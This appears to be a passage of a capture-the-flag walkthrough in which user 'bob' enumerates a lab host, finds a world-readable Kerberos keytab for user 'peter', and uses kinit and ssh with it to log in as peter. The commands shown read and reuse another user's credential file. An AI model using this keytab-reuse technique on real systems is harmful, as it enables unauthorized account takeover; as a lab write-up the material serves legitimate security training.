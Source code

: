 ```
bob@workstation1:~$ ssh bob@workstation2
<no password needed>

bob@workstation2:~$ ls -la
(...)
-rw-r--r-- 1 root root   48 Jun  3 11:41 notes.txt

bob@workstation2:~$ cat notes.txt 
I need to brief peter to keep his account safe.
```

Who is that `peter` guy?

```
bob@workstation2:~$ id -a peter
uid=995(peter) gid=994(peter) groups=994(peter)

bob@workstation2:~$ ls -la /home/peter
ls: cannot open directory '/home/peter': Permission denied

bob@workstation2:~$ ls -lad /home/peter
drwxr-x--- 1 peter peter 4096 Sep  7 16:12 /home/peter

bob@workstation2:~$ find / -user peter 2>/dev/null
/home/peter

bob@workstation2:~$ find / -name '*peter*' 2>/dev/null
/home/peter
/etc/peter.keytab

bob@workstation2:~$ ls -la /etc/peter.keytab
-rwxrwxrwx 1 root root 130 Sep  7 16:12 /etc/peter.keytab

Keytab name: FILE:/etc/peter.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   1 peter@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL
```

A-ha! We have `peter`'s keytab and it contains his login credential.

# peter@workstation2

```
bob@workstation2:~$ kinit -k -t /etc/peter.keytab peter@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL

bob@workstation2:~$ klist
(...)
Default principal: peter@CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL

bob@workstation2:~$ ssh peter@workstation2
<no password needed>

peter@workstation2:~$ ls -la
(...)
-rw-r--r-- 1 root  root   120 Sep  7 16:12 notes.txt
peter@workstation2:~$ cat notes.txt 
TODO:
- Fix issue on server1.CHALLENGE-DAF98FA3-34A9-4E5E-81F7-78BDD19DC6FE.SVC.CLUSTER.LOCAL
- Make coffee
- Meet bob
```
